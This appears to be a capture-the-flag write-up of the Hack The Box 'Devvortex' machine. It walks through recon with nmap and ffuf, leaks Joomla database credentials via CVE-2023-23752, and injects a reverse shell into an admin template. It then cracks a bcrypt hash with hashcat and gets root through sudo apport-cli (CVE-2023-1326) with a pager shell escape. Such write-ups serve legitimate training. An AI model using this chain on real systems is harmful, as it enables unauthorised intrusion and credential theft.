

# Devvortex


# Recon
Default nmap Scan open ports:

```python 
nmap -Pn -sC -sV -p- -vvv 10.10.11.242 --min-rate 5000 > result_nmap.txt
```


From the NMAP scan, ports 80 and 22 were discoverable.

Visiting directly the IP address ( http://10.10.11.242 ) revealed that we need to resolve domain devvortex.htb domain. Then 10.10.11.242 devvortex.htb in the /etc/hosts file. 


By visiting the site we can see that the domain is devvortex.htb. 
I won't explain all the details of what each button is doing, but we can find some interesting forms (Contact Us and Email Signup). Checking the source code clearly indicates that the form is doing absolutely nothing. The form data is sent to the page we're on, which is not a PHP application or any other back-end service, but an ordinary HTML page.  

# Enumeration

The next step is to list directories in order to find something that can help us get more information. The tool we used was ffuf.

```python
ffuf -u "http://devvortex.htb/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500

 images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 188ms]
#                       [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 187ms]
                        [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 189ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 190ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 189ms]

```

Well, absolutely nothing. 
But we can think about hosting. And the ffuf tool will be able to show if there are vhosts along with the directories.


```python
ffuf -H "Host: FUZZ.devvortex.htb" -u "http://devvortex.htb/" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --fs 154 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 224ms]
Dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 368ms]
```
What a surprise! We got the result, virtualhost dev.devvortext.htb is there!!!

Let's visit it.


Cool, the site has changed a bit, probably this version may be in development or they forgot to disable vhost. 


I then thought to check if the site had a robots.txt and what a surprise, we found several directory paths. And luckily we found a path for administrative access.


An administrative panel with Joomla. The next step is to research Joomla and end up finding a scan for this type of application, Joomscan.


```python 
joomscan -u http://dev.devvortex.htb/
```

```python

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://dev.devvortex.htb/ ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.6

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found                                                   
                                                                                                
[+] admin finder                                                                                
[++] Admin page : http://dev.devvortex.htb/administrator/                                       
                                                                                                
[+] Checking robots.txt existing                                                                
[++] robots.txt is found                                                                        
path : http://dev.devvortex.htb/robots.txt                                                      
                                                                                                
Interesting path found from robots.txt                                                          
http://dev.devvortex.htb/joomla/administrator/                                                  
http://dev.devvortex.htb/administrator/                                                         
http://dev.devvortex.htb/api/                                                                   
http://dev.devvortex.htb/bin/                                                                   
http://dev.devvortex.htb/cache/                                                                 
http://dev.devvortex.htb/cli/                                                                   
http://dev.devvortex.htb/components/                                                            
http://dev.devvortex.htb/includes/                                                              
http://dev.devvortex.htb/installation/                                                          
http://dev.devvortex.htb/language/                                                              
http://dev.devvortex.htb/layouts/                                                               
http://dev.devvortex.htb/libraries/                                                             
http://dev.devvortex.htb/logs/                                                                  
http://dev.devvortex.htb/modules/                                                               
http://dev.devvortex.htb/plugins/                                                               
http://dev.devvortex.htb/tmp/                                                                   
                                                                                                
                                                                                                
[+] Finding common backup files name                                                            
[++] Backup files are not found                                                                 
                                                                                                
[+] Finding common log files name                                                               
[++] error log is not found                                                                     
                                                                                                
[+] Checking sensitive config.php.x file                                                        
[++] Readable config files are not found                                                        
                                                                                                
                                                                                                
Your Report : reports/dev.devvortex.htb/
```

We get the version of the application and with this we can check if the application is vulnerable or if there is an exploit. The research found that version 4.2.6 is vulnerable due to the following information disclosure flaw and has CVE-2023-23752. The research found an exploit for the application.


```python 
https://github.com/Acceis/exploit-CVE-2023-23752
```

Let's try it out.


Nice. We have the database login credentials.  
Then I tried to connect SSH with the credentials provided, but we didn't get access, but we were able to access the Joomla page.


As you can see, the user lewis is the superuser, so we have administrator rights to the content. We can change the PHP code how and where we want. The next step is to access the page where we can edit the PHP code and get the reverse shell for our host machine. In Joomla, we can find this page in the installed templates. To do this, we need to navigate to System -> Templates -> Administrator Templates.


As you can see, we have several PHP codes running, let's open any of them and inject our code to run the bash command and save the changes. Start netcat on the host computer, go to http://dev.devvortex.htb/administrator/templates/atum/login.php and wait for the shell.


We have the shell. Check the /etc/passwd file to find out which user we should escalate our privileges to.
With the search result in the /etc/passwd file we find another user called logan who is registered in our Joomla panel, his password must be inside the MySQL database where we got the credentials earlier. Connect to the database and see what happens.

Before running mysql to connect to the database, let's generate the pseudo-terminal utilities with python so that interaction with mysql is better.



python3 -c "import pty;pty.spawn('/bin/bash')"

Scrolling through the tables, we find the sd4fg_users table. Let's select all the records in it to analyze. The result is the credentials of users lewis and logan. What we need to do now is decrypt the logan user's hash to gain SSH access.


To decipher the following hash, I created a hash.txt file and used the hashcat tool.

```python
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

That's it, we've got the logan user's password. Let's authenticate via SSH.


# Priv-Esc

Priv esc is pretty interesting! 
Before downloading any script from LinPEAS or these automation tools, I used the sudo -l command and I recommend that you use it too.  As we know the password, we can authenticate ourselves and check that we can run any script with root access.


We can run the apport-cli utility, let's do some research and find out what it is and how to test it.


Version 2.20.11 is affected by a CVE-2023-1326 vulnerability.

A privilege escalation attack was found in apport-cli 2.26.0 and earlier which is similar to CVE-2023-26604. If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege. It is extremely unlikely that a system administrator would configure sudo to allow unprivileged users to perf.

To get the pager, we need to "load and view" the crash report using this apport-cli tool. On Linux, the crash reports are located in the /var/crash directory.

We need to perform a segmentation fault, and to do this we use the following command:

```python
sleep 13 & kill - SIGSEGV $!
```


After running the command, when prompted, type V and wait a few seconds. Let apport-cli load and run.
To start the shell, just use !/bin/bash and you'll get root access.


That's it, machine pwned, the context itself was pretty smooth, although it seems like a lot, you can learn a lot from this challenge.